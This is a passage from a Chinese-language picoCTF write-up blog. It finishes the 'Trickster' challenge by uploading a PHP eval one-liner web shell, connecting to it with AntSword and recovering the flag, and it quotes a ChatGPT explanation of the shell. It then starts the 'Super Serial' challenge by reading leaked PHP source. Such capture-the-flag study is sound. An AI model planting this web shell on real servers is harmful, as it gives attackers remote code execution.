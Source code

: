 整個修改完後如下（點開來看可能會比較清楚）:

![一句話木馬](https://hackmd.io/_uploads/Sy7rFrYU0.png)

上傳完成後，現在這個 shell 就會位於 `a`這個位置上啦。

接下來再用[中國蟻劍](https://github.com/AntSwordProject/antSword)這款工具去連接那個 web shell 就可以啦，連接過程如下:

![輸入連接資訊](https://hackmd.io/_uploads/HJo4cSF8A.png)

連接完成後，就可以直接看一下網站的文件，看到以下這個 `.txt`應該就是 flag 了。

![貌似是flag的文件](https://hackmd.io/_uploads/SyahqSYLR.png)

![flag出來了](https://hackmd.io/_uploads/HJW1sBtI0.png)

於是我們就成功找到了 flag 啦！如下:

```txt
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
```

這邊補充一個知識點，來講一下 `<?php @eval($_POST['shell']);?>`到底是在做啥。但因為我也不是很熟 php，所以我們來看看 ChatGPT 大神是怎麼回答的吧！

> 當然，這段 PHP 代碼的原理是允許遠程執行伺服器上的 PHP 代碼。這是如何工作的：
>
> 1. `<?php` 是 PHP 代碼的開始標記。
> 2. `@eval($_POST['shell']);` 中的 `eval()` 函數執行傳遞給它的字符串作為 PHP 代碼。這裡的代碼來自於 HTTP POST 請求中名為 `shell` 的變量。
> 3. `@` 符號用來抑制任何錯誤信息，這樣用戶不會看到執行過程中產生的任何錯誤。
> 4. 由於這段代碼執行任意 PHP 代碼，它使得伺服器容易受到攻擊，因此屬於一種非常危險的做法。
>
> 簡言之，任何通過 `shell` 變量傳送的代碼都將被伺服器執行，這可以用於各種目的，包括但不限於數據讀取、文件操作等。

然後我後來找到了另一篇 writeup，它的 payload 比較酷，是一個即時執行的 input 框，有興趣可以去看一下[這篇](https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18)。

# Super Serial

這題先讀取 `/robots.txt`發現它有一個禁止的路徑為 `/admin.phps`，這似乎代表著它有支持 `.phps`文件。所以可以到 `/index.phps`裡面看它的源代碼。（`phps`為 PHP source）

![index.phps](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240704170553939.png)

題目說 Flag 在 `../flag`中，所以解題的思路就是要想辦法讀取到 `../flag`。先把圖片上的程式碼拿出來分析一下。

```php
<?php
require_once "cookie.php";  # 這裡用到了cookie.php

if (isset($_POST["user"]) && isset($_POST["pass"])) {
    $con = new SQLite3("../users.db");
    $username = $_POST["user"];
    $password = $_POST["pass"];
    $perm_res = new permissions($username, $password);
    if ($perm_res->is_guest() || $perm_res->is_admin()) {
        setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + 86400 * 30, "/");
        header("Location: authentication.php");  # 這裡重定向到authentication.php
        die();
    } else {
        $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
    }
}
?>
```
